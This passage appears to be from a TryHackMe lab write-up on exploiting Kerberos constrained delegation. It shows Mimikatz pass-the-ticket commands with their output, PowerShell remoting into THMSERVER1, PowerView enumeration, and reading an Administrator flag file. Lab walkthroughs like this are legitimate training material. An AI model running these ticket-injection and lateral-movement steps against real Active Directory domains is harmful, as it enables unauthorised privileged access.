 Run the command again, this time for the WSMAN service. Now that we have the two TGS tickets, we can use Mimikatz to import them:

```shell-session
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK
```

You can exit Mimikatz and run `klist` if you want to verify that the tickets were imported. Now that the tickets are imported, we can finally create our PSSession on THMSERVER1:

```shell-session
mimikatz # exit
Bye!
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
za\t1_trevor.jones
```

With the exploitation of Constrained Delegation, we now have privileged access to THMSERVER1!

### Practical

***

Inside of our ssh session for the tier 2 admin, we can start with:

```powershell
Import-Module C:\Tools\PowerView.ps1
Get-NetUser -TrustedToAuth
```

![](images/Pasted%20image%2020250527125242.png)


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt